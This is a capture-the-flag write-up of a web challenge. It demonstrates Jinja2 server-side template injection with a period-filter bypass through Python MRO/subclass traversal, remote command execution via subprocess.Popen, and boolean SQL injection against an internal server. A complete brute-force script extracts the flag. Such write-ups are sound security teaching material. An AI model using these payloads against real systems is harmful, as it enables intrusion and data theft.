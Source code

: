 # Flushed Emoji
![](https://img.shields.io/badge/category-web-blue)
![](https://img.shields.io/badge/solves-49-orange)

## Description
Flushed emojis are so cool! Learn more about them [here](http://litctf.live:31781/)!

[FlushedEmojis.zip](https://drive.google.com/uc?export=download&id=1agW3a0-T4VsSJwJVTZ-dWSRLE_byxJya)

## Solution
In web challenges with source code, I usually like to check out the website first to see what it does. The home page has a button to launch the popup, containing a login form. Upon entering some dud credentials, it simply says `ok thank you for your info i have now sold your password (b) for 2 donuts :)`.

Weird, the password is returned back to us. That's definitely worth taking a look at, since websites don't normally do that.

That's all the website offered, so it was time to peek at the source code. Taking a look at `main-server/main.py`, it looks like it:
1. Blocks any requests with a `.` in the password.
2. Send a POST request to the other server with our username and password, but with non-alphanumeric characters stripped.
3. Returns a success message if the server returns "True"
4. Returns the fail message with our password in it otherwise (presumably "False")

The key is noticing that it returns `render_template_string` with our original password directly substituted in, meaning we can perform a SSTI attack.

To test this, we can try using `{{config}}` as the password, which would print the web app's configuration settings if it is vulnerable. Success!

![](https://user-images.githubusercontent.com/62577178/182054055-b7c532a4-e0a6-4fe7-9b18-4faa58649be2.png)

Looks like the config doesn't contain useful information, so it's more likely that we'll have to abuse the SSTI to gain remote code execution. Time to look at the other server.

In the data-server, there is a `/runquery` endpoint, which gets the JSON POST data, and executes unfiltered SQL on the username and password. This is not exploitable with a typical SQLi attack, since any quotes we insert into the username and password will get filtered. However, these rules don't apply to our remote code execution. This endpoint returns "True" if there is a matching record, and "False" otherwise. This means we'll need our exploit code to make the request to that endpoint, perform boolean SQL injection, and check the results. First though, we'll need to get remote code execution.

Since periods are banned, we can abuse some Python properties to access methods and attributes without using periods. Specifically:
- for some objects, `object["attribute_name"]` and `object["method_name"]()` work
- for other objects where that doesn't work, `getattr(object, "attribute_name")` and `getattr(object, "method_name")()` work

Additionally, we can use any loaded class, because Python provides `__mro__` to access a class's superclass, and `__subclasses__()` to access any subclasses of the current class. This means that by going up the `__mro__` chain, we will arrive at the `Object` class, which is the superclass of every other class.
```
$ curl -X POST -F username=a -F password='{{self["__class__"]["__mro__"]}}' http://litctf.live:31781/
ok thank you for your info i have now sold your password ((&lt;class &#39;jinja2.runtime.TemplateReference&#39;&gt;, &lt;class &#39;object&#39;&gt;)) for 2 donuts :)
$ curl -X POST -F username=a -F password='{{self["__class__"]["__mro__"][1]}}' http://litctf.live:31781/
ok thank you for your info i have now sold your password (&lt;class &#39;object&#39;&gt;) for 2 donuts :)
$ curl -X POST -F username=a -F password='{{self["__class__"]["__mro__"][1]["__subclasses__"]()}}' http://litctf.live:31781/
ok thank you for your info i have now sold your password ([&lt;class &#39;type&#39;&gt;, &lt;class &#39;weakref&#39;&gt;, &lt;class &#39;weakca...
```

In most related SSTI challenges, `subprocess.Popen` is what we're looking for. This is because it grants us remote code execution through `subprocess.Popen("command", stdout=-1, shell=True)["communicate"]()`. Through some trial and error, I determined that it existed at either index 247 or 250 (it changes between workers for some reason).

Thus, our exploit would be
```
username: anything
password: {{ self["__class__"]["__mro__"][1]["__subclasses__"]()[247 or 250]("command", stdout=-1, shell=True)["communicate"]() }}
```

Before we can perform the SQLi, it is necessary to find the IP of the data-server (it's redacted in the source code) as well as what tools are available at our disposal.

With `ls -l`:
```
ok thank you for your info i have now sold your password ((b&#39;total 20\n-rw-rw-r-- 1 root root 1212 Jul 20 19:38 main.py\n-rw-r--r-- 1 root root   24 Jul 20 02:13 requirements.txt\n-rwxrwxr-x 1 root root  351 Jul 20 19:38 run.sh\ndrwxrwxr-x 2 root root 4096 Jul 20 02:09 static\ndrwxrwxr-x 2 root root 4096 Jul 20 02:26 templates\n&#39;, None)) for 2 donuts :)
```
Looks like `main.py` is in our current directory. For the challenge to actually work, it must contain the uncensored IP.

With `cat main.py`:
```
lmao no way you have . in your password LOL
```
Oops, I forgot about the filter. Instead, we can `cat *`
```
... [some data omitted] ...
requests.post(\&#39;http://172.24.0.8:8080/runquery\&#39;
... [some data omitted] ...
```
Great, the remote server is at `http://172.24.0.8:8080/runquery`. Now, what tools are available?
```
which curl:
ok thank you for your info i have now sold your password ((b&#39;&#39;, None)) for 2 donuts :)

which wget:
ok thank you for your info i have now sold your password ((b&#39;&#39;, None)) for 2 donuts :)

which python3:
ok thank you for your info i have now sold your password ((b&#39;/usr/bin/python3\n&#39;, None)) for 2 donuts :)
```

Looks like we'll have to use Python to do our bidding. Before trying to get the full exploit, let's first write the Python command that will successfully perform SQLi against this data server locally. I used:
```py
import requests
print(requests.post('http://172.24.0.8:8080/runquery',
                    json={'username': "flag' and substr(password, 1, 1)='L'--", 'password': ''}).text)
```
This did have the intended effect, so now I had to get rid of the periods.
1. To get rid of the `requests.post` period, I simply changed `import requests` to `from requests import post` and called `post(url, data)` instead
2. To get rid of the periods in the url, I replaced them with `chr(46)`, becoming `'http://172'+chr(46)+'24'+chr(46)+'0'+chr(46)+'8:8080/runquery'`
3. To get rid of the `.text`, I tried replacing it with `['text']`, which didn't work, so instead, the entire post request had to be wrapped as `getattr(post(url, data), 'text')`

This results in:
```py
from requests import post
print(getattr(post('http://172'+chr(46)+'24'+chr(46)+'0'+chr(46)+'8:8080/runquery',
                    json={'username': "flag' and substr(password, 1, 1)='L'--", 'password': ''}), 'text'))
```

And in command form:
```python
python3 -c "from requests import post;print(getattr(post('http://172'+chr(46)+'24'+chr(46)+'0'+chr(46)+'8:8080/runquery', json={'username': \"flag' and substr(password, 1, 1)='L'--\", 'password': ''}), 'text'))"
```

Now, this needs to be executed in the context of the SSTI RCE, in which we run `subprocess.Popen("command", ...)`, so the command needs to be escaped again.

```python
subprocess.Popen("python3 -c \"from requests import post;print(getattr(post('http://172'+chr(46)+'24'+chr(46)+'0'+chr(46)+'8:8080/runquery', json={'username': \\\"flag' and substr(password, 1, 1)='L'--\\\", 'password': ''}), 'text'))\"", stdout=-1, shell=True)['communicate']()
```

And finally, this can be wrapped in the double braces and MRO/subclass hacking.

![image](https://user-images.githubusercontent.com/62577178/182056485-d6cba7fd-8760-489a-be3d-a2c87e21273e.png)

When bruteforcing, `POPEN_NUM` is to be replaced with 247 or 250, depending on which one is working, `IDX_J` is to be replaced with the index of the character we're guessing, and `LTR` is to be replaced with the character we're guessing.

```py
import requests

url = 'http://litctf.live:31781/'
flag = 'LITCTF{'
j = len(flag)+1

payload = '{{self[\'__class__\'][\'__mro__\'][1][\'__subclasses__\']()[POPEN_NUM]("python3 -c \\"from requests import post;print(getattr(post(\'http://172\'+chr(46)+\'24\'+chr(46)+\'0\'+chr(46)+\'8:8080/runquery\', json={\'username\': \\\\\\"flag\' AND substr(password, IDX_J, 1)=\'LTR\'--\\\\\\", \'password\': \'\'}), \'text\'))\\"", stdout=-1, shell=True)[\'communicate\']()}}'
"""
{{self['__class__']['__mro__'][1]['__subclasses__']()[247]("python3 -c \"from requests import post;print(getattr(post('http://172'+chr(46)+'24'+chr(46)+'0'+chr(46)+'8:8080/runquery', json={'username': \\\"flag' AND substr(password, 1, 1)='P'--\\\", 'password': ''}), 'text'))\"", stdout=-1, shell=True)['communicate']()}}
"""


while True:
 for i in range(ord(' '), 128):
  print(flag + chr(i))
  pay = payload.replace("IDX_J", str(j)).replace("LTR", chr(i)).replace("POPEN_NUM", "247");
  res = requests.post(url, data={'username': 'a', 'password': pay})
  if 'Internal Server Error' in res.text:
    print('index 247 broken, trying 250')
    pay = payload.replace("IDX_J", str(j)).replace("LTR", chr(i)).replace("POPEN_NUM", "250");
    res = requests.post(url, data={'username': 'a', 'password': pay})
  if 'True' in res.text:
    flag += chr(i)
    j += 1
```

This leaked the flag up until `LITCTF{flush3d_3m0ji_o`. For some reason, the next character just wasn't leaking, so I replaced it with a `?` and kept going.

`LITCTF{flush3d_3m0ji_o?0}`

At this point, I was utterly confused, until I remembered that any of my guesses with a period were being filtered, so the missing character was likely a period.

Flag: `LITCTF{flush3d_3m0ji_o.0}`

## Afterthoughts
After the CTF was over, I realized two things I could have done to make my life much easier.
1. Instead of directly substituting the guess character in and being susceptible to the filter, I should have used sqlite's hex filter to check the ascii code instead.
2. There was no need to go to such great lengths to avoid periods; all I had to do was replace them with `\x2E` as it would pass by the filter undetected, but get translated into a period when running code.
